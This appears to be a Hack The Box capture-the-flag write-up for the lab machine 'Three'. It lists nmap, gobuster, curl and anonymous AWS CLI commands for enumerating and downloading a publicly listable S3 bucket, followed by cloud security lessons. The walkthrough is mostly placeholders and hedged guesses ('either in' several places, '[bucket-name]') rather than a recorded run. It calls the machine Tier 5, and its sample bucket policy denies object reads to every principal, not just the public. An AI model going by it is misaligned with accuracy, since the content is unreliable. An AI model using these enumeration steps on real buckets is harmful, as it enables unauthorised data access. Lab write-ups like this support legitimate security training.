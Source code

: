 # Hack The Box Write-up: Three

- **Machine:** Three
- **IP Address:** 10.129.110.34
- **Platform:** Hack The Box
- **Difficulty:** Easy (Starting Point - Tier 5)

---

### Summary

"Three" is a Tier 5 machine that introduces a common cloud security vulnerability: a publicly accessible and listable Amazon S3 bucket. The path to compromise involves discovering the S3 bucket via a web server and then using the AWS Command Line Interface (CLI) to enumerate and download its contents to find the flag.

---

### Enumeration

The reconnaissance phase began with a comprehensive port scan to identify open services and their configurations.

**Command:**
`nmap -sV -sC -T4 10.129.110.34`

**Results:**
The Nmap scan revealed a web server running on port 80 (HTTP). This indicated a web application that could potentially contain information about cloud resources.

**Key Findings:**
- Port 80: HTTP web server running
- Web application potentially hosting cloud-related content
- Possible S3 bucket references in web content

**Web Application Enumeration:**
1. **Initial Web Exploration:**
   I navigated to `http://10.129.110.34` to examine the web application.

2. **Directory Enumeration:**
   I performed directory brute-forcing to discover hidden content:
   ```bash
   # Using gobuster for directory enumeration
   gobuster dir -u http://10.129.110.34 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
   
   # Using dirb for additional enumeration
   dirb http://10.129.110.34
   ```

3. **Source Code Analysis:**
   I examined the web page source code for references to S3 buckets:
   ```bash
   curl http://10.129.110.34 | grep -i s3
   curl http://10.129.110.34 | grep -i bucket
   curl http://10.129.110.34 | grep -i aws
   ```

4. **S3 Bucket Discovery:**
   Through web application enumeration, I discovered references to an S3 bucket name, either in:
   - Page source code
   - JavaScript files
   - Configuration files
   - Directory listings

---

### Gaining Access (S3 Bucket Enumeration)

With the S3 bucket name identified, I proceeded to test for public access and enumerate its contents.

**Tool Installation:**
```bash
# Install AWS CLI on Kali Linux
sudo apt install awscli

# Verify installation
aws --version
```

**S3 Bucket Testing:**

1. **Anonymous Access Testing:**
   I tested whether the S3 bucket allowed anonymous access:
   ```bash
   # Test bucket listing permissions
   aws s3 ls s3://[bucket-name]/ --no-sign-request
   
   # Alternative: Test with specific region if needed
   aws s3 ls s3://[bucket-name]/ --no-sign-request --region us-east-1
   ```

2. **Bucket Content Enumeration:**
   The listing command revealed the bucket contents without authentication, indicating misconfigured permissions:
   ```bash
   # List all objects in the bucket
   aws s3 ls s3://[bucket-name]/ --no-sign-request --recursive
   
   # Get detailed information about objects
   aws s3 ls s3://[bucket-name]/ --no-sign-request --human-readable --summarize
   ```

3. **File Discovery:**
   The enumeration revealed files that potentially contained sensitive information or the flag.

4. **File Download:**
   I downloaded suspicious files from the S3 bucket:
   ```bash
   # Download specific file
   aws s3 cp s3://[bucket-name]/[filename] . --no-sign-request
   
   # Download all files (if needed)
   aws s3 sync s3://[bucket-name]/ ./s3-download/ --no-sign-request
   ```

**Alternative S3 Enumeration Methods:**
```bash
# Using s3scanner tool
s3scanner scan --buckets-file bucket-names.txt

# Using AWS CLI with different output formats
aws s3api list-objects --bucket [bucket-name] --no-sign-request --output table
```

---

### Flag Capture

After gaining access to the S3 bucket, I systematically examined the downloaded files:

1. **File Analysis:**
   I examined each downloaded file to identify the flag:
   ```bash
   # List downloaded files
   ls -la
   
   # Search for flag patterns
   grep -r "HTB{" .
   grep -r "flag" . -i
   ```

2. **Flag Discovery:**
   Found the flag in one of the downloaded files:
   ```bash
   cat [flag-file-name]
   ```

3. **Flag Verification:**
   Verified the flag format and content to ensure successful completion of the challenge.

---

### Lessons Learned

This machine provides crucial insights into cloud security, specifically AWS S3 security:

1. **S3 Bucket Permissions:** S3 buckets should use the principle of least privilege. Public read access should only be granted when absolutely necessary and with careful consideration.

2. **Bucket Policies:** Implement proper bucket policies that explicitly deny public access unless required:
   ```json
   {
     "Version": "2012-10-17",
     "Statement": [
       {
         "Effect": "Deny",
         "Principal": "*",
         "Action": "s3:GetObject",
         "Resource": "arn:aws:s3:::bucket-name/*"
       }
     ]
   }
   ```

3. **AWS Config Rules:** Use AWS Config rules to automatically detect and alert on publicly accessible S3 buckets.

4. **S3 Block Public Access:** Enable S3 Block Public Access settings at both account and bucket levels to prevent accidental public exposure.

5. **Regular Auditing:** Regularly audit S3 bucket permissions and access logs to detect unauthorized access.

6. **Data Classification:** Understand what data is stored in S3 buckets and apply appropriate security controls based on data sensitivity.

7. **Encryption:** Use S3 server-side encryption for sensitive data, even if the bucket is private.

8. **Access Logging:** Enable S3 access logging to monitor and audit bucket access patterns.

9. **Cloud Security Tools:** Use tools like AWS Trusted Advisor, AWS Security Hub, and third-party cloud security scanners to identify misconfigurations.

10. **Infrastructure as Code:** Use IaC tools to manage S3 bucket configurations consistently and prevent manual misconfigurations.
